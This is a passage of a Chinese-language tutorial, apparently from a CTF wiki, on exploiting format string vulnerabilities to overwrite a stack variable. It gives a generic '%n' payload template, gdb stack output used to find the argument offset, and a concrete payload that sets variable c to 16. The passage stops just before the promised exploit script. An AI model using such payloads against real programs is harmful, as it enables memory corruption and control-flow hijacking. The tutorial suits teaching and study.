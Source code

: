 makefile在对应的文件夹中。而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的payload

```text
...[overwrite addr]....%[overwrite offset]$n
```

其中...表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

### 覆盖栈内存

#### 确定覆盖地址

首先，我们自然是来想办法知道栈变量c的地址。由于目前几乎上所有的程序都开启了aslr保护，所以栈的地址一直在变，所以我们这里故意输出了c变量的地址。

#### 确定相对偏移

其次，我们来确定一下存储格式化字符串的地址是printf将要输出的第几个参数()。 这里我们通过之前的泄露栈变量数值的方法来进行操作。通过调试

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d"	 ← $eax
```

我们可以发现在0xffffcd28处存储着变量c的数值。继而，我们再确定格式化字符串'%d%d'的地址0xffffcd28相对于printf函数的格式化字符串参数0xffffcd10的偏移为0x18，即格式化字符串相当于printf函数的第7个参数，相当于格式化字符串的第6个参数。

#### 进行覆盖

这样，第6个参数处的值就是存储变量c的地址，我们便可以利用%n的特征来修改c的值。payload如下

```text
[addr of c]%012d%6$n
```

addr of c 的长度为4，故而我们得再输入12个字符才可以达到16个字符，以便于来修改c的值为16。

具体脚本如下
